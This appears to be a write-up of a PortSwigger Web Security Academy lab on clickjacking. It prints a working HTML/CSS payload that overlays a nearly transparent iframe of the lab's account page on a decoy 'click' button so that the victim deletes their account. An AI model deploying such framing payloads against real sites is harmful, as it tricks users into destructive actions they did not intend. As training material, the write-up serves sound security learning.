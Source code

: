 
# Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: wiener:peter

Note: The victim will be using Chrome so test your exploit on that browser.

---------------------------------------------

References: 

- https://portswigger.net/web-security/clickjacking



![img](images/Basic%20clickjacking%20with%20CSRF%20token%20protection/1.png)

---------------------------------------------

The problem is to set the correct CSS valus so the button is clicked, in this case these values worked:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:480px;
			left:90px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">click</button>
	</div>
	<iframe id="target_website" src="https://0a19006b043fc0ca803c0dd100220095.web-security-academy.net/my-account">
	</iframe>
</body>
```



![img](images/Basic%20clickjacking%20with%20CSRF%20token%20protection/2.png)